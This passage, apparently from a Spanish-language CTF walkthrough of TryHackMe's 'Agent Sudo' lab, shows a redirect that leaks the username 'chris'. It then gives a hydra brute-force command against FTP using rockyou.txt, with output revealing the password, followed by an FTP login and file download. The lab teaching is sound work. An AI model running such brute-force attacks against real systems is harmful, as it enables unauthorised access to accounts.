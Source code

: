 Mediante la herramienta **BurpSuite** vemos que para la letra **C** nos genera un código de estado 302, es decir, nos redirecciona:

![](/assets/images/thm-agentsudo/agentsudo2.png)

Vemos que nos redirecciona a http://10.10.175.93/agent_C_attention.php y se nos muestra un potencial usuario: **chris**; asi mismo, no indica que que hablemos con el agente **J** y que nuestra contraseña es insegura. Ahora, podriamos tratar de realizar un ataque de fuerza bruta sobre el usuario **chris** y el puerto 21:

```bash
❯ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.175.93
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-20 21:24:35
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.175.93:21/
[STATUS] 249.00 tries/min, 249 tries in 00:01h, 14344150 to do in 960:08h, 16 active
[21][ftp] host: 10.10.175.93   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-20 21:25:39
```

Ya tenemos acceso vía ftp, así que vamos a ver los recursos que se encuentran:

```bash
❯ ftp 10.10.175.93
Connected to 10.10.175.93.
220 (vsFTPd 3.0.3)
Name (10.10.175.93:k4miyo): chris
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> mget *
mget To_agentJ.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
226 Transfer complete.
217 bytes received in 0.00 secs (46.1284 kB/s)
mget cute-alien.jpg? y
200 PORT command successful. Consider using PASV.
```